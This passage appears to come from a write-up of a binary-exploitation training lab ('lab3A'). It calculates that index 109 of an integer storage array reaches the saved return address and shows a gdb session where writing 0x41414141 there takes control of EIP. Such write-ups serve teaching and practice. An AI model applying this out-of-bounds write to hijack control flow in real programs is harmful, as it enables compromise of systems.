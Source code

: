 
The return address is `0xb7e3ca83` and is placed at `0xbffff6bc` on the stack. Given the array starts at `0xbffff508` (index 0), we just need to do a little subtraction:
- `(0xbffff6bc - 0xbffff508) / 4 = 0x6d` 

We found **0x6d** or **109** in decimal. Note that we divided the result by **4** because the program store integers, not bytes! So, if we are right, we should be able to overwrite the return address by writing something at **index 109**. Let's do a quick check and store *1094795585* (0x41414141) at the index 109.

```nasm
gdb-peda$ run
Starting program: /levels/lab03/lab3A
----------------------------------------------------
  Welcome to quend's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   quend has reserved some storage for herself :>
----------------------------------------------------

Input command: store
 Number: 1094795585
 Index: 109
 Completed store command successfully
Input command: quit

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x0
EBX: 0xb7fcd000 --> 0x1a9da8
ECX: 0x74 ('t')
EDX: 0xbffff698 ("quit")
ESI: 0x0
EDI: 0x0
EBP: 0x0
ESP: 0xbffff6c0 --> 0x1
EIP: 0x41414141 ('AAAA')
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41414141
[------------------------------------stack-------------------------------------]
0000| 0xbffff6c0 --> 0x1
0004| 0xbffff6c4 --> 0xbffff758 --> 0x0
0008| 0xbffff6c8 --> 0xbffff7bc --> 0x0
0012| 0xbffff6cc --> 0xb7feccea (<call_init+26>:    add    ebx,0x12316)
0016| 0xbffff6d0 --> 0x1
0020| 0xbffff6d4 --> 0xbffff754 --> 0xbffff888 --> 0x0
0024| 0xbffff6d8 --> 0xbffff6f4 --> 0x65a027a6
0028| 0xbffff6dc --> 0x804a27c --> 0xb7e3c990 (<__libc_start_main>: push   ebp)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41414141 in ?? ()
```
